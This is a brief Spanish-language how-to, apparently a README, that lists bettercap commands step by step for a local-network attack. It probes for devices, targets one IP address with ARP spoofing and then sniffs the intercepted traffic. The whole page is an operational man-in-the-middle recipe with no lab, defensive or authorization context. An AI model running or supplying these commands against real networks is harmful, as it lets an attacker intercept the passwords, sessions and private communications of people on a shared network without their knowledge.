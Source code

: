 Instalar el programa 

```
sudo apt install bettercap 
```

Iniciarlo
```
sudo bettercap
```

Iniciar Servicio
```
net.probe on
```

Ver Dispositivos 
```
net.show
```

Seleccionar Dispositivos 
```
set arp.spoof.target 192.168.1.34
```

Iniciar ARP
```
arp.spoof on
```

Iniciar Lectura
```
net.sniff on
```

